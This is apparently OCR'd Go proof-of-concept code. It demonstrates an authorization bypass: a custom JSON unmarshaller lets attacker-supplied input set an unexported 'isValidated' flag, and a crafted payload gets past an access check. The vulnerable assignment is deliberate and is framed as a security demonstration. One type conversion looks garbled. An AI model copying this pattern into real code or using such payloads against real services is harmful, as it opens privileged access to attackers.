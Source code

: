 ```go
	// Note: The JSON field name could be "isValidated" or "is_validated" etc.,
	// depending on how the attacker guesses or knows the expected JSON structure.
	// For this PoC, we assume the JSON field is "isValidated".
	aux := &struct {
		IsValidated bool `json:"isValidated"` // Attacker can control this via the JSON payload
		*Alias
	}{
		Alias: (*Alias)(s),
	}

	log.Printf("Attempting to unmarshal JSON: %s", string(data))
	if err := json.Unmarshal(data, &aux); err!= nil {
		log.Printf("Error during unmarshalling auxiliary struct: %v", err)
		return err
	}

	// Vulnerable assignment: unexported field 's.isValidated' is set from attacker-controlled input.
	s.isValidated = aux.IsValidated
	log.Printf("After unmarshalling, s.isValidated is: %v", s.isValidated)

	// Exported fields (SessionID, UserID) are populated via aux.Alias.
	return nil
}

// Simulates processing a request that relies on the session's validation status.
func processRequest(jsonData string) {
	var session SessionData
	if err := json.Unmarshal(byte(jsonData), &session); err!= nil {
		log.Fatalf("Failed to unmarshal session data: %v", err)
		return
	}

	fmt.Printf("Processing session: ID=%s, UserID=%d, IsValidated=%v\n",
		session.SessionID, session.UserID, session.isValidated)

	// Application logic checks the 'isValidated' flag.
	if session.isValidated {
		fmt.Println("PoC SUCCESS: Access granted! The session is marked as validated due to attacker manipulation.")
		// In a real application, this could lead to performing privileged operations.
	} else {
		fmt.Println("PoC: Access denied. The session is not validated.")
	}
}

func main() {
	fmt.Println("--- Simulating legitimate (unvalidated) session ---")
	legitimateUnvalidatedJSON := `{"sessionID": "legit-session-001", "userID": 100}`
	processRequest(legitimateUnvalidatedJSON)
	// Expected: PoC: Access denied. The session is not validated. (isValidated defaults to false)

	fmt.Println("\n--- Simulating attacker's attempt to bypass validation ---")
	// Attacker crafts a JSON payload including the 'isValidated' field set to true.
	maliciousJSONPayload := `{"sessionID": "attacker-session-123", "userID": 999, "isValidated": true}`
	processRequest(maliciousJSONPayload)
	// Expected: PoC SUCCESS: Access granted!
}
```

